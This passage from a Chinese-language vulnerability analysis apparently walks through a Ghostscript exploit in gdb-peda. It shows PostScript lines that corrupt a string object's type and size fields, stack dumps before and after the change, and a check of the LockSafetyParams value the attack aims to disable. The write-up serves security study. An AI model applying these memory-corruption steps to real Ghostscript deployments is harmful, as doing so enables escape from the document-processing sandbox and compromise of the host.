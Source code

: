 `c`继续向下执行：

```
gdb-peda$ p osp
$2 = (s_ptr) 0x5555574fc968
gdb-peda$ x /10gx osp-3
0x5555574fc938:    0x00000001ffff047e    0x00005555575d4428
0x5555574fc948:    0x00000252ffff0b02    0x0000000000000000
0x5555574fc958:    0xffffffffffff1378    0x000055555709d488
0x5555574fc968:    0x0000000effff127e    0x00005555572d812a
0x5555574fc978:    0x00000001ffff04fe    0x00005555572d6c40
gdb-peda$ hexdump 0x00005555572d812a
0x00005555572d812a : 62 65 66 6f 72 65 20 63 6f 6e 76 65 72 74 96 3f   before convert.?
```

可以看到`currentdevice`已经覆盖掉之前的字符串buffers[N]，接下来的三条语句修改其属性：

```
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put    %0x127e表示string
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put    %修改size
```

关于属性各字段定义见tas_s结构(位于/psi/iref.h))：

```
struct tas_s {
/* type_attrs is a single element for fast dispatching in the interpreter */
    ushort type_attrs;
    ushort _pad;
    uint32_t rsize;
};
```

修改完成：

```
gdb-peda$ c
......
gdb-peda$ p osp
$2 = (s_ptr) 0x5555574fc968
gdb-peda$ x /10gx osp-3
0x5555574fc938:    0x00000001ffff047e    0x00005555575d4428
0x5555574fc948:    0x00000252ffff0b02    0x0000000000000000
0x5555574fc958:    0xffffffffffff127e    0x000055555709d488
0x5555574fc968:    0x0000000dffff127e    0x00005555572d8115
0x5555574fc978:    0x00000002ffff0b02    0x000000000000a5f9
gdb-peda$ hexdump 0x00005555572d8115
0x00005555572d8115 : 61 66 74 65 72 20 63 6f 6e 76 65 72 74 97 3f 00   after convert.?.
```

查看此时的`LockSafetyParams`值：

```
gdb-peda$ x /4gx 0x000055555709d488+0x3e8
0x55555709d870:    0x0000000000000001    0x0000000000000000
0x55555709d880:    0x0000000000000000    0x0000000000000000
gdb-peda$ x /4gx 0x000055555709d488+0x3b0
0x55555709d838:    0x0000000000000000    0x0000000000000000
0x55555709d848:    0x0000000000000000    0x0000000000000000
gdb-peda$ x /4gx 0x000055555709d488+0x3f0
0x55555709d878:    0x0000000000000000    0x0000000000000000
0x55555709d888:    0x0000000000000000    0x0000000000000000
```
